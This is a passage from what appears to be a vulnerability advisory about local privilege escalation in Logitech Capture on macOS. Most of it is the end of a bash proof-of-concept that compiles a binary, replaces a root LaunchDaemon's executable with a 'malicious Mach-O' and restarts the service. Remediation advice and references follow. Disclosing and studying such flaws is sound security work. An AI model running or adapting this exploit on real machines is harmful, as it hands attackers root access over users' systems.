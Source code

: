 ```bash
    return 0;
}
EOF

/bin/echo "[i] Compiling $DEMO_NAME.c file"
/usr/bin/gcc /tmp/$DEMO_NAME.c -o /tmp/$DEMO_NAME

/bin/echo "[i] chmodding $DEMO_NAME"
/bin/chmod +x /tmp/$DEMO_NAME

/bin/echo "[i] Copying malicious Mach-O to launchd path"
/bin/cp /tmp/$DEMO_NAME ${PATH}${VULN_FILE}

/bin/echo "[i] Simulating a reboot (Needs password and saves you having to reboot your machine) (sudo launchctl kickstart -k system/com.SplitMediaLabs.LogiCapture.Assistant)"
/usr/bin/sudo /bin/launchctl kickstart -k system/com.SplitMediaLabs.LogiCapture.Assistant

/bin/echo "[i] Sleeping for 5 seconds"
/bin/sleep 5

/bin/echo "[i] Viewing the result of LPE"
/bin/cat $LPE_OUTFILE

/bin/echo "[i] Restoring the binary"
/bin/mv ${PATH}${VULN_FILE}.bak ${PATH}${VULN_FILE}

/bin/echo "[i] Cleaning up"
/bin/rm -rf /tmp/${DEMO_NAME}*

/bin/echo "[i] Пока Пока !!!"
```







## Remedial Action
The POSIX directory permissions should be restricted so that only the `root` user and `wheel` group can access the directory structure and files used by permissioned XPC LaunchDaemon services.


## Further Information
- [Logitech Capture](https://www.logitech.com/en-gb/software/capture.html)
- [Logitech Capture Direct Download](https://download01.logi.com/web/ftp/pub/techsupport/capture/Capture_2.08.12.zip)
- [Core Media I/O](https://developer.apple.com/documentation/coremediaio)
- [Creating Launch Daemons and Agents -- Apple](https://developer.apple.com/library/archive/documentation/MacOSX/Conceptual/BPSystemStartup/Chapters/CreatingLaunchdJobs.html)

## Impact

Local Privilege Escalation